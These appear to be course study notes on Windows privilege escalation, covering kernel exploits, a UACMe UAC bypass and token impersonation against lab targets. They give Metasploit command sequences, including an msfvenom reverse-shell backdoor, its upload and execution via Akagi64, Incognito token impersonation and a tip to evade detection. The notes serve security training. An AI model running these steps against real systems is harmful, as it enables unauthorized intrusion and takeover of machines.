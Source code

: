 
# Windows Privilege Escalation
#### Windows Kernel Exploits:
##### Elevate privileges from one user to another, a user with administrative or root access
#### Windows Kernal
- kernel is a computer program that is the core of an operating system
- Windows NT is the kernel that comes pre-packed with all versions of Microsoft Windows
- has two main modes
	- User Mode 
	- Kernel Mode - has unrestricted access
#### Windows Kernal Exploitation
- privilege escalation on Windows systems will follow the following methodology
	- identifying Kernel vulnerabilities
	- downloading, compiling and transferring kernel exploits onto the target system
- process differs for different Windows versions
- tools
	- Windows-Exploit-Suggester
	- Windows-Kernel-Exploits
- techniques - Manually, Metasploit
- Metasploit
	- obtain a meterpreter session on your target
	- use a the suggester module to check kernel vulns
	- use an exploit
	- that is it
- Manually
	- use two previous tools
 	- put the exploit file to Temp to avoid getting detected

### Bypassing UAC with UACMe
- User Account Control
	- windows security feature
- Bypassing UAC
- have access to a user account that is part of local administrator group
- tools to be used depends on the version of windows running
- UACMe - tool
	- allows attackers to execute malicious payloads with administrative privileges
- Process
- `$ nmap -sV 10.10.10.10`
- `$ service postgresql start && msfconsole`
- `$ setg RHOSTS 10.10.10.10`
- `$ search rejetto``
- `$ use `
- `$ set options`
- `$ run`
- Check if the user is part of the administrator group
- `$ sysinfo`
- `$ pgrep explorer`
- `$ migrate 2448`
- `$ sysinfo`
- `$ getprivs`
- `$ shell`
- `$ net user`
- `$ net localgroup administrators`
- **using UACMe**
- `msfvenom -p windows/meterpreter/reverse_tcp LHOST=yourip LPORT=1234 -f exe > backdoor.exe`
- `msfconsole`
- `use multi/handler`
- `set payload windows/meterpreter/reverse_tcp`
- `set LHOST your IP`
- `set LPORT 1234`
- `run`
- back to first Metasploit
- `cd C:\\`
- `mkdir Temp`
- `cd Temp`
- `upload backdoor.exe`
- `upload /root/Desktop/tools/UACME/Akagi64.exe`
- `shell`
- `.\Akagi64.exe 23 C:\Temp\backdoor.exe`
- back to second Metasploit

### Access Token Impersonation
- are core element of the authentication process on windows
- are created and managed by the Local Security Authority Subsystem Service (LSASS)
- controls what users can and cannot on the system
- two types
	- Impersonate-level tokens
	- Delegate-level tokens
- privilleges are required for successful impersonation attack
	- SeAssignPrimaruToken
	- SeCreateToken
	- SelmpersonatePrivilege
- The Incognito Module
	- built-in meterpreter module
	- we use for displaying a list of available tokens that we can impersonate
- **sample process** 
- `$ nmap 10.10.10.10`
- `$ service postgresql start && msfconsole`
- `$ search rejetto`
- `$ use 0`
- `$ set options`
- `$ run`
- `$ sysinfo`
- `$ pgrep explorer`
- `$ migrate to that number`
- `$ getuid`
- `$ getprivs`
- we have the SeImpersonatePrivilege
- **using Incognito module**
- `$ load incognito`
- `$ list_tokens -u `
- `$ impersonate_token "Attackdefence\admmm...."`
- `$ getuid`
- `$ getprivs`
- `$pgrep explorer`
- `$ migrate to that number`
- `$ getuid`
- `$ getprivs`
- if you don't get the tokens, use the potato attack - will be discussed in another video

